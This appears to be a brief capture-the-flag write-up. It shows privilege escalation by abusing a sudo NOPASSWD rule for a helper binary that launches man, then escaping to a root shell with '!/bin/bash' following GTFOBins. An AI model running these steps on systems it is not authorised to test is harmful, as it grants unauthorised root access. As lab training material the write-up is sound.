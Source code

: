 ![image](https://user-images.githubusercontent.com/67979878/129601564-8ddd3794-7cb6-4d96-bbf6-71220f62efeb.png)


Privelege escalation
--------------------


`(root) NOPASSWD: /home/anansi/bin/anansi_util`

![image](https://user-images.githubusercontent.com/67979878/129601691-bacf89a8-991c-429e-ac7d-e727b718f369.png)

so we can run man as root , at https://gtfobins.github.io/gtfobins/man/#sudo 

let's use it 

`sudo /home/anansi/bin/anansi_util manual man` 

!/bin/bash

![image](https://user-images.githubusercontent.com/67979878/129602094-30b896e3-5d61-4809-b6f1-6bc544de10c0.png)


![image](https://user-images.githubusercontent.com/67979878/129602161-16b3e04c-e35a-434f-b5f1-7e1be886bc69.png)
